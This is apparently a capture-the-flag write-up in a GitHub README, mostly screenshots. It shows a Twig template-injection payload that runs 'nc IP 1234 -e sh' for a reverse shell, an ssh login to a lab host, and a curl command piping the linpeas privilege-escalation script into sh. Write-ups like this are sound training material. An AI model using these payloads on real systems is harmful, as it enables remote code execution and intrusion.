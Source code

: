 ![image](https://github.com/stensil4rt/CodeBy/assets/62753044/969543bc-fc24-4ab6-bf46-153b72723e11)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/48198394-d3ce-4641-93fc-6e3d77a4809c)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/2861d870-dd91-4a6c-b414-35fe4b6641c5)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/ec85fdf6-c24f-494b-8a44-8bdd6eb9fabd)

https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/2ebf5ba5-a5bb-42c3-81c0-80396848a7df)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/8f424bce-8053-4c8b-83a9-db6af40a8708)
```
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("nc IP 1234 -e sh")}}
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/6dfbff28-1ee3-4ead-972b-5964eb44e926)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/9626ee0a-6ff8-4230-8cb8-5a4c1df375a4)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/0008ab05-e8ac-4fbd-8fe7-5139bb66ccac)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/a3affac4-1ddf-4669-a342-622130059480)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/8f923809-0e4c-44fb-b031-7bd0583126ae)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/c3f3cbfe-b034-420d-9fa7-8aae4a6ef436)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/a0688355-fc77-4da7-a5f1-fd66433fa5b6)
```
ssh kevin@62.173.140.174 -p 18122
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/4ddada70-30b9-4639-8774-0c0f0c469ed1)
```
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/c2305b25-6448-4fb9-a9cb-2b1184d1afa0)
